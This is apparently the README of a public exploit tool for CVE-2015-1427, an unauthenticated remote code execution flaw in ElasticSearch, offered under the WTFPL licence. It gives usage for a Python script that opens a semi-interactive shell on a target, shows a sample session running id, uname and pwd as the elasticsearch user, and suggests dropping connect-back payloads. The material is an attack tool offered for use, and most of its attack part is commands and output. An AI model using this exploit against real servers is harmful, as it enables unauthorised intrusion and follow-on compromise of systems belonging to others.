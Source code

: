 # Exploit for CVE-2015-1427, ElasticSearch Unauthenticated Remote Code Execution

This is an exploit for a recently disclosed remote code execution vulnerability in the ElasticSearch software. Basically, whatever "genius" came up with ElasticSearch decided that allowing remote, unauthenticated users to execute arbritary Java code via JSON requests was clever, and then decided that a shitty sandbox would make the whole shebang "secure".
This exploit, unfortunately, is not up to the standards of previous ones, due to badchar limitations meaning I could not drop a shell properly without using wget - and I decided that using wget was unacceptable due to reliance on third parties to host our backconnect, so instead, we have a semi-interactive shell with which you can execute commands and drop your own connect back payloads and suchlike.

## Usage
To use, you simply need the target host. Simply execute the script with the only argument being the IP address or hostname of the vulnerable ElasticSearch instance.

Example Usage:
```
xrl:~$ python elastic_shell.py elasticsearch.local

▓█████  ██▓    ▄▄▄        ██████ ▄▄▄█████▓ ██▓ ▄████▄    ██████  ██░ ██ ▓█████  ██▓     ██▓    
▓█   ▀ ▓██▒   ▒████▄    ▒██    ▒ ▓  ██▒ ▓▒▓██▒▒██▀ ▀█  ▒██    ▒ ▓██░ ██▒▓█   ▀ ▓██▒    ▓██▒    
▒███   ▒██░   ▒██  ▀█▄  ░ ▓██▄   ▒ ▓██░ ▒░▒██▒▒▓█    ▄ ░ ▓██▄   ▒██▀▀██░▒███   ▒██░    ▒██░    
▒▓█  ▄ ▒██░   ░██▄▄▄▄██   ▒   ██▒░ ▓██▓ ░ ░██░▒▓▓▄ ▄██▒  ▒   ██▒░▓█ ░██ ▒▓█  ▄ ▒██░    ▒██░    
░▒████▒░██████▒▓█   ▓██▒▒██████▒▒  ▒██▒ ░ ░██░▒ ▓███▀ ░▒██████▒▒░▓█▒░██▓░▒████▒░██████▒░██████▒
░░ ▒░ ░░ ▒░▓  ░▒▒   ▓▒█░▒ ▒▓▒ ▒ ░  ▒ ░░   ░▓  ░ ░▒ ▒  ░▒ ▒▓▒ ▒ ░ ▒ ░░▒░▒░░ ▒░ ░░ ▒░▓  ░░ ▒░▓  ░
 ░ ░  ░░ ░ ▒  ░ ▒   ▒▒ ░░ ░▒  ░ ░    ░     ▒ ░  ░  ▒   ░ ░▒  ░ ░ ▒ ░▒░ ░ ░ ░  ░░ ░ ▒  ░░ ░ ▒  ░
   ░     ░ ░    ░   ▒   ░  ░  ░    ░       ▒ ░░        ░  ░  ░   ░  ░░ ░   ░     ░ ░     ░ ░   
   ░  ░    ░  ░     ░  ░      ░            ░  ░ ░            ░   ░  ░  ░   ░  ░    ░  ░    ░  ░
                                              ░                                                
 Exploit for ElasticSearch , CVE-2015-1427   Version: 20150309.1
{*} Spawning Shell on target... Do note, its only semi-interactive... Use it to drop a better payload or something
~$ id
uid=106(elasticsearch) gid=111(elasticsearch) groups=111(elasticsearch)
~$ uname -a
Linux elasticsearch 3.13.0-36-generic #63-Ubuntu SMP Wed Sep 3 21:30:07 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
~$ pwd
/
~$ exit
{!} Shell exiting!
xrl:~$
```

## ASCIICAST DEMO TIME \o/  
This demo demonstrates exploiting ES and dropping a connectback shell on it :)  
[![asciicast](https://asciinema.org/a/23380.png)](https://asciinema.org/a/23380)

## Licence
Licenced under the [WTFPL][wtfpl]

[wtfpl]: http://www.wtfpl.net/
